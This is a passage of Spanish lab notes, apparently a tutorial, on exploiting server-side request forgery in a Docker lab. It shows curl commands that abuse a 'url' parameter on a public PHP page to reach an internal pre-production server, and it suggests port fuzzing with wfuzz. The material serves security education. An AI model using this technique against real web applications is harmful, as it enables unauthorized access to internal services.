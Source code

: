 * Crear archivo html para simular pagina de pre producción o la pagina que externamente no se puede llegar a ver:

```html
* NO SE PUEDE VER EXTERNAMENTE!!!! *
```

* Levantar servidor web con python donde estará la página creada anteriormente por el puerto 6666:

```bash
root@af05671bedd2:/tmp# python3 -m http.server 6666
Serving HTTP on 0.0.0.0 port 6666 (http://0.0.0.0:6666/) ...
```

Ahora desde el contenedor del atacante instalamos curl para poder hacer peticiones web:

```bash
❯ docker exec -it ATTACKER bash
root@6e9f92039f81:/# apt update
root@6e9f92039f81:/# apt install curl -y
```

Con curl haremos una petición donde apuntaremos desde la maquina de PRO a la maquina de PRE para poder llegar a ver a través del parámetro url la pagina de la maquina PRE sin poder llegar a verla externamente:

```bash
root@6e9f92039f81:/# curl http://10.10.0.3:6666 // *NO FUNCIONA* //
root@6e9f92039f81:/# curl "http://172.17.0.2/utility.php?url=http://10.10.0.3:6666"
* NO SE PUEDE VER EXTERNAMENTE!!!! *
```

Y como anteriormente como hemos echo podemos hacer fuzzing para ver que puertos tiene abiertos la maquina con wfuzz por ejemplo.
